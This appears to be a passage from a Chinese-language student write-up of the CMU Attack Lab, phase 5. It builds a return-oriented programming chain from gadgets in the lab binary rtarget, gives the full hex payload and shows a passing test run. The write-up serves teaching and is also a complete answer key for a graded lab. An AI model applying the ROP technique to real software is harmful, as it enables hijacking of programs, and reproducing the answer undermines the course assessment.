  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	retq   

0000000000401a9e <addval_184>:
  401a9e:	8d 87 89 c2 60 d2    	lea    -0x2d9f3d77(%rdi),%eax
  401aa4:	c3                   	retq   

0000000000401aa5 <getval_472>:
  401aa5:	b8 8d ce 20 d2       	mov    $0xd220ce8d,%eax
  401aaa:	c3                   	retq   

0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq   

0000000000401ab2 <end_farm>:
  401ab2:	b8 01 00 00 00       	mov    $0x1,%eax
  401ab7:	c3                   	retq   
  401ab8:	90                   	nop
  401ab9:	90                   	nop
  401aba:	90                   	nop
  401abb:	90                   	nop
  401abc:	90                   	nop
  401abd:	90                   	nop
  401abe:	90                   	nop
  401abf:	90                   	nop

```


重新调整思路？

在part1 level3中，通过调试发现，字符串可以存储在 `0x5561dca8` 和 `0x5561dcb8`,可以算出其于栈顶%rsp的偏移量，由于栈地址是每次都变动的，所以要通过转存来记录。

又一个思路是 ：先拿到栈顶的值，%rsp，将其与cookie在栈中的偏移量存储在某个寄存器中？再将这个寄存器的值放到%rdi中，然后调用touch3


```assembly
mov %rsp ,(某个寄存器) # 把栈地址存到某个寄存器
# 48 89  e0 - e7  
# 符合条件的指令代码地址有 0x401a06  48 89 e0 c3 %rax寄存器
# 0x401aad 48 89 e0 90 c3  也是 rax寄存器

# 所以是栈顶地址存储到了 %rax寄存器中

mov %rax , %rdi # 将%rax 赋给 %rdi
# 48 89 c0 - c7
# 符合条件的指令代码地址有 0x4019a2 48 89 c7 c3
# 0x4019c5 48 89 c7 90 c3 

pop 
# 58 - 5f
# 符合条件的有 pop %rax 0x4019ab 58 90 c3
# pop %rax 0x4019cc 58 90 c3
# 数据出栈到%rax寄存器中
# 出栈的数值，也就是字符串存储地址到栈顶位置的偏移量
{偏移量}

# 数据都准备好了，用什么指令才能正确的取到字符串所在的地址呢？
#　就是如何将偏移量给加进去。
# lea 加载有效地址，正好在源代码中有一条指令符合条件。
4019d6:	48 8d 04 37  c3        	lea    (%rdi,%rsi,1),%rax  #相当于 %rax = %rdi + %rsi

# 如果使用这个方式，那么就需要将偏移量存在%rsi寄存器中，
#　在rtarget汇编代码中没有找到直接给%rsi赋值的 但是有给 %esi(%rsi的低32位)赋值的。 89 {c6 ce d6 de e6 ee f6 fe}
#　符合条件的有　 401a27:	89 ce 38 c0 c3  38 c0 相当于nop指令，无影响
#   401a13:	89 ce 90 90 c3   
对应指令为 movl %ecx, %esi 

继续找给%ecx传值的
89 {c1 d1 d9 e1 e9 f1 f9 }
  401a34  89 d1 38 c9 c3      	38 c9 相当于 nop指令 无影响
  401a69 89 d1 08 db c3         08 db 相当于 nop指令 无影响

对应指令为 movl %edx, %ecx

继续找给%edx传值的指令
89 {c2 ca da e2 ea f2 fa}
  4019dd 89 c2 90  c3  
  
  401a42 89 c2 84 c0 c3  84 c0 相当于 nop 指令 无影响

相当于指令 movl %eax, %edx
正好是%eax传值。

所以可以有以下步骤来完成给%esi传值
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi


# 将%rax 寄存器的值给 %rdi , 调用touch3函数
movl %rax, %rdi
touch3 
```


重新整理之后的指令顺序如下

``` shell
栈顶
mov %rsp, %rax
0x401a06  48 89 e0 c3 
#0x401aad 48 89 e0 90 c3 

mov %rax, %rdi
 0x4019a2 48 89 c7 c3
# 0x4019c5 48 89 c7 90 c3 

pop %rax
0x4019ab 58 90 c3
# 0x4019cc 58 90 c3
#指令运行到这里时，要存一个数，表示偏移量，也就是pop %rax，取出栈顶的值放到寄存器中}

{offset}

movl %eax, %edx
4019dd 89 c2 90  c3   
#401a42 89 c2 84 c0 c3 

movl %edx, %ecx
401a34  89 d1 38 c9 c3 
# 401a69 89 d1 08 db c3  

movl %ecx, %esi
 401a27:	89 ce 38 c0 c3 
#   401a13:	89 ce 90 90 c3   
lea    (%rdi,%rsi,1),%rax
4019d6:	48 8d 04 37  c3 

mov %rax,%rdi
 0x4019a2 48 89 c7 c3
# 0x4019c5 48 89 c7 90 c3 

call touch3
0x4018fa

cookie
35 39 62 39 39 37 66 61 00
栈底
```


注意 offset 计算方式，就是看字符串实际存放地址，与保存的栈顶指针内存地址的差值，可以看出中间一共有9条指令，每条指令占用8个字节，一共就是72个字节，换算成16进制就是 0x48 ,所以 `offset = 0x48`

 so5.txt

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
```


```shell
# 测试
./hex2raw < so5.txt > so5r.txt
./rtarget -q -i so5r.txt 
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 27 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```


附录：






